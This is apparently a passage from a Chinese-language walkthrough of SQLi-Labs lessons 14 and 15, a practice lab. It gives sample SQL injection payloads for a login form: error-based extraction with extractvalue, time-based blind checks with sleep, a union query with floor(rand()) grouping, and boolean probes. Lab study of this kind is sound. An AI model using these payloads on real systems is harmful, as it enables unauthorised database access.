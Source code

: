 这就又和之前的一样了 通过延时判断

![image-20201110175807948](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110175807948.png)



## 0X0ELess-14

双引号 报错

![image-20201110180347069](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110180347069.png)

方法一，报错型

样例payload

```
uname=admin" and extractvalue(1,concat(0x7e,(select database()))) and "  &passwd=admin&submit=Submit
```

 ![image-20201110180511346](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110180511346.png)

后续同之前一样

方法二，时间型盲注

效率低，鸡肋

样例payload

```
uname=admin" and if(left(database(),1)='s',sleep(3),1) --+ &passwd=admin&submit=Submit
```

方法三，聚合函数

具有随机性，鸡肋

样例payload

```
uname= " union select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(rand()*2))as a from information_schema.tables group by a # &passwd=admin&submit=Submit
```



## 0X0FLess-15

```
uname=admin' and 1=1 --+&passwd=admin&submit=Submit    //登陆成功
uname=admin' and 1=2 --+&passwd=admin&submit=Submit    //登录失败
```



存在延时注入

![image-20201111091910211](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201111091910211.png)
